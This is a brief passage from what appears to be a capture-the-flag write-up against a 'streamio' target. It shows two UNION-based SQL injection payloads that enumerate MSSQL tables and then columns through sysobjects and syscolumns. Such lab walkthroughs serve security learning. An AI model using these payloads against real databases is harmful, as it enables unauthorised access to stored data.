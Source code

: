 <figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
abcd'union select 1,name,id,4,5,6 from streamio..sysobjects where xtype='U';-- -
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

we continue our way in:&#x20;

```
abcd' union select 1,name,id,4,5,6 from streamio..syscolumns where id in (885578193,901578250);-- -
```
